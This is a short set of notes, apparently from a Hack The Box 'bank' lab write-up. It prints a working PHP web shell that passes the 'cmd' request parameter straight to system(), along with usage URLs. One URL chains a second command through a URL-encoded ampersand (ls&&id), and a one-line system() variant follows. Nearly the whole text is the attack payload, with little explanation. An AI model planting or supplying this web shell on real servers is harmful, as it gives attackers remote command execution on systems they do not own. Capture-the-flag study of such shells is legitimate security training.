 Usage:http://www.example.com/shell.php?cmd=ls


<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST["cmd"]);
    system($cmd);
    echo "</pre>$cmd<pre>";
    die;
}
?>

Example of command
http://bank.htb/uploads/cmd.htb?cmd=ls%26%26id
where %26 is an & url encoded

or 


<?php system(''ls''); ?>


